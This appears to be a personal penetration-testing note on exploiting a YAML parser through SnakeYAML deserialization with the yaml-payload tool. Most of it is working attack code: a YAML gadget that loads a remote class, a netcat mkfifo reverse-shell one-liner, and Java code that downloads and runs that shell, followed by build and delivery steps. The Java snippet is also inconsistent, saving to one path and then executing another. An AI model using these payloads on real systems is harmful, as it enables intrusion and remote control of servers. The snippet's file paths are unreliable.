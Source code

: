 #### Online YAML parser
See https://github.com/artsploit/yaml-payload

![[Pasted image 20220922153442.png]]

```bash - kali
git clone https://github.com/artsploit/yaml-payload
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://$KALI/"]
  ]]
]
```

Should see a call back in you python server.
![[Pasted image 20220922153421.png]]

```bash - kali
echo '#!/bin/bash \nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f' > Shelly.sh
```

Modify lines 8 - 17 of `/src/artsploit/AwesomeScriptEngineFactory.java` with the following to upload and execute reverse shell.
```java
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() throws Exception {
        try {
            Process p = Runtime.getRuntime().exec("wget $KALI/Shelly.sh -O /tmp/shell");
			p.waitFor();
			p = Runtime.getRuntime().exec("chmod +x /tmp/Shelly.sh");
			p.waitFor();
			p = Runtime.getRuntime().exec("/tmp/Shelly.sh");
			p.waitFor();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

```bash - kali
javac src/artsploit/AwesomeScriptEngineFactory.java
```

```bash - kali
jar -cvf yaml-payload.jar -C src/ .
```

[[rlwrap]]

```bash - kali
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://$KALI/yaml-payload.jar"]
  ]]
]
```














